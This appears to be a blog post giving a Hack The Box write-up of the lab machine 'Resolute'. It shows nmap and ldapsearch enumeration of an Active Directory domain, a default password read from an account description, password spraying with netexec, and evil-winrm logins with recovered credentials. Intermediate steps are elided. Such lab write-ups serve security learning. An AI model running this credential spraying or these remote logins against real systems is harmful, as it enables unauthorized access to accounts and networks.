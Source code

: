 ```yaml
---
layout: post
title:  "HTB - RESOLUTE"
date:   2025-02-05 20:52:24 +0100
categories: writeup
---
```

As usually starting with nmap 

{% highlight ruby %}
nmap 10.10.10.169 -sV -A -Pn   
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-05 18:33 CET
Nmap scan report for 10.10.10.169
Host is up (0.060s latency).
Not shown: 989 closed tcp ports (reset)
PORT     STATE SERVICE      VERSION
53/tcp   open  domain       Simple DNS Plus
88/tcp   open  kerberos-sec Microsoft Windows Kerberos (server time: 2025-02-05 17:42:23Z)
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: megabank.local, Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: MEGABANK)
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap         Microsoft Windows Active Directory LDAP (Domain: megabank.local, Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94SVN%E=4%D=2/5%OT=53%CT=1%CU=42741%PV=Y%DS=2%DC=T%G=Y%TM=67A3A
OS:177%P=x86_64-pc-linux-gnu)SEQ(SP=100%GCD=1%ISR=106%TI=I%CI=I%II=I%SS=S%T
OS:S=A)SEQ(SP=FF%GCD=1%ISR=105%TI=I%CI=I%II=I%SS=S%TS=A)SEQ(SP=FF%GCD=1%ISR
OS:=106%TI=RD%CI=I%II=I%TS=C)OPS(O1=M53CNW8ST11%O2=M53CNW8ST11%O3=M53CNW8NN
OS:T11%O4=M53CNW8ST11%O5=M53CNW8ST11%O6=M53CST11)WIN(W1=2000%W2=2000%W3=200
OS:0%W4=2000%W5=2000%W6=2000)ECN(R=Y%DF=Y%T=80%W=2000%O=M53CNW8NNS%CC=Y%Q=)
OS:T1(R=Y%DF=Y%T=80%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=80%W=
OS:0%S=A%A=O%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=80%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T
OS:6(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)T7(R=N)U1(R=Y%DF=N%T=80%IPL=1
OS:64%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=80%CD=Z)

Network Distance: 2 hops
Service Info: Host: RESOLUTE; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 2h47m00s, deviation: 4h37m09s, median: 6m59s
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: Resolute
|   NetBIOS computer name: RESOLUTE\x00
|   Domain name: megabank.local
|   Forest name: megabank.local
|   FQDN: Resolute.megabank.local
|_  System time: 2025-02-05T09:42:42-08:00
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required
| smb2-time: 
|   date: 2025-02-05T17:42:41
|_  start_date: 2025-02-05T17:29:28
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required

TRACEROUTE (using port 8080/tcp)
HOP RTT      ADDRESS
1   73.59 ms 10.10.14.1
2   73.68 ms 10.10.10.169

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 115.11 seconds
{% endhighlight %}

We have destinguished name for domain so lets see if we can get usernames 

{% highlight shell %}
ldapsearch -H ldap://10.10.10.169 -x -b "DC=megabank,DC=local" '(ObjectClass=Person)' sAMAccountName | grep sAMAccountName
{% endhighlight %}

{% highlight ruby %}
sAMAccountName: Guest
sAMAccountName: DefaultAccount
sAMAccountName: RESOLUTE$
sAMAccountName: MS02$
sAMAccountName: ryan
sAMAccountName: marko
sAMAccountName: sunita
sAMAccountName: abigail
sAMAccountName: marcus
sAMAccountName: sally
sAMAccountName: fred
sAMAccountName: angela
sAMAccountName: felicia
sAMAccountName: gustavo
sAMAccountName: ulf
sAMAccountName: stevie
sAMAccountName: claire
sAMAccountName: paulo
sAMAccountName: steve
sAMAccountName: annette
sAMAccountName: annika
sAMAccountName: per
sAMAccountName: claude
sAMAccountName: melanie
sAMAccountName: zach
sAMAccountName: simon
sAMAccountName: naoki
{% endhighlight %}

Let's enum deeper on descriptions 

{% highlight ruby %}
description: Account created. Password set to Welcome123!   
{% endhighlight %}

So we have our password. But it appears to be default one, so we need to check if it fits for any usernames we already have. 

{% highlight shell %}
netexec smb 10.10.10.169 -u logins_resolute -p 'Welcome123!'
{% endhighlight %}

{% highlight ruby %}
SMB         10.10.10.169    445    RESOLUTE         [*] Windows Server 2016 Standard 14393 x64 (name:RESOLUTE) (domain:megabank.local) (signing:True) (SMBv1:True)
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\Guest:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\DefaultAccount:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\RESOLUTE$:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\MS02$:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\ryan:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\marko:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\sunita:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\abigail:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\marcus:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\sally:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\fred:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\angela:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\felicia:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\gustavo:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\ulf:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\stevie:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\claire:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\paulo:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\steve:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\annette:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\annika:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\per:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\claude:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [+] megabank.local\melanie:Welcome123! 
{% endhighlight %}

Now we know that password fits to melanie user and we can WinRM to it.

{% highlight shell %}
evil-winrm -i 10.10.10.169 -u 'melanie' -p 'Welcome123!'
{% endhighlight %}

  ....


And now ryan
  {% highlight shell %}
evil-winrm -i 10.10.10.169 -u 'ryan' -p 'Serv3r4Admin4cc123!'  
{% endhighlight %}

{% endfor %}